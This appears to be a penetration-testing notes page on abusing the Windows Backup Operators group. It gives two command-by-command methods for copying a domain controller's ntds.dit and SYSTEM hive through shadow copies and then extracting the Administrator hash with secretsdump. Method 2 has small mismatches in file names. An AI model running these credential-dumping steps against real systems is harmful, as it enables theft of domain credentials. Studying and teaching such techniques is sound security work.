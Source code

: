 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Backup Operators

## Information

Backup Operators can **back up and restore all files on a computer**, including OS files, regardless of the permissions that protect those files. Because members of this group can replace files on DCs, they're considered **service administrators**.

> Well known SID/RID: `S-1-5-32-551`.

<table><thead><tr><th width="205">Privilege</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/back-up-files-and-directories">SeBackupPrivilege</a></td><td>Allows us to create backups of any files, whilst not restoring their permissions, which equals to <strong>arbitrary read access</strong>.</td></tr><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/restore-files-and-directories">SeRestorePrivilege</a></td><td>Allows us to <strong>overwrite legitimate executable files</strong> with versions that include malicious software used for <strong>privilege escalation</strong>.</td></tr></tbody></table>

## Exploitation

### Dumping ntds.dit

#### Method 1

Create a [**diskshadow**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) script from the attack host to expose the `c:` drive.

{% code overflow="wrap" %}
```bash
# creating a diskshadow script
nano diskshadow_script
# listing its content
cat diskshadow_script
set context persistent nowriters
add volume c: alias random
create
expose %random% z:
# converting file into a Windows-compatible format
$ sudo unix2dos diskshadow_script
unix2dos: converting file diskshadow_script to DOS format...
```
{% endcode %}

[Transfer](../../../tools/file-transfers.md) the script to the target host and execute the following steps. In the example below, `evil-winrm` is used to transfer the files between the attack and the target host, via its `upload` and `download` methods.

```powershell
# move within a writeable directory
cd c:\windows\temp
# upload the diskshadow script
upload diskshadow_script
# expose the shadow copy
diskshadow /s diskshadow_script
# copy the ntds.dit database
robocopy /b z:\windows\ntds . ntds.dit
# copy the system.hive file
reg save hklm\system c:\windows\temp\system.hive
# download both files
download ntds.dit
download system.hive
```

Dump the `ntds.dit` from the attack host.

{% code overflow="wrap" %}
```bash
# dump the ntds.dit data and extract the administrator's hash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
```
{% endcode %}

For an example of the above method check [here](../../../boxes/hard/blackfield.md#exfiltrating-victory).

#### Method 2

Download the `SeBackupPrivilegeUtils.dll` and `SeBackupPrivilegeCmdLets.dll` from [here](https://github.com/giuliano108/SeBackupPrivilege) on the attack host and transfer them to the target along with the diskshadow script ([Method 1](backup-operators.md#method-1))  (on the example below `evil-winrm` is used).

```powershell
# move to a writeable directory
cd C:\Temp
# upload files
upload diskshadow_script
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll
# import DLLs into memory
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
# expose the shadow copy
diskshadow /s raj.dsh
```

Unlike [Method 1](backup-operators.md#method-1), this time we will be using the `Copy-FileSebackupPrivilege` cmdlet (part of the DLL files) to copy the `ntds.dit` file from the `z:` volume to the `Temp` directory.

```powershell
# copy ntds.dit to Temp
Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
# copy system.hive
reg save hklm\system c:\Temp\system
# exfiltrate files
download ntds.dit
download system
```

Dump the `ntds.dit` from the attack host.

```bash
# dump the ntds.dit data and extract the administrator's hash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
```

## Resources

{% tabs %}
{% tab title="Backup Operators" %}
{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#backup-operators" %}
{% endtab %}

{% tab title="SeBackup" %}
{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/" %}
{% endtab %}
{% endtabs %}
